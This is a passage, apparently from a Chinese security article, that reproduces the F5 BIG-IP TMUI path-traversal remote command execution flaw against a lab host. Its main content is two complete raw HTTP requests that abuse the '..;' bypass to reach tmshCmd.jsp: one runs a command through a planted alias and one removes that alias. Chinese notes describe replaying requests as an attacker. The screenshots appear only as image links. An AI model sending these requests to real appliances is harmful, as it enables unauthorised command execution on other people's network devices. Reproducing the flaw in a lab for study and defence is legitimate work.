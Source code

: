 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHWQuG7ZjiaZcFFXdquUmFHeZlXGtiaGicVwo9nWMujtxqZmrcic3dP36zDA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHUDOGqhfnAlTqtXCPfWiaGiauBKpjB02AGCmxWld94ELaudJVUPnu6BNA/640?wx_fmt=png "")  
  
之后模拟攻击者重放之前的请求数据包(此时数据包中的会话信息不变)，第一次执行会出现以下错误提示信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHrhcVDkN1qRcrzHIrBicetrickz8tfXqib2xBGibm1osU23RqtenoJLB4IA/640?wx_fmt=png "")  
  
之后把之前的步骤重新走一遍即可，然后重新执行命令：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHQrJPa6W83gy9TwKdzuJTPvLzljaibV6LfbExgANLKvtohpicGIiaFebrg/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```

  
  
用完之后记得解除：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHx3TB4A9qg4CITiaTUYqPCVQbCQNibmzsKvMc7PqluCEgOl8OekW7q37A/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```

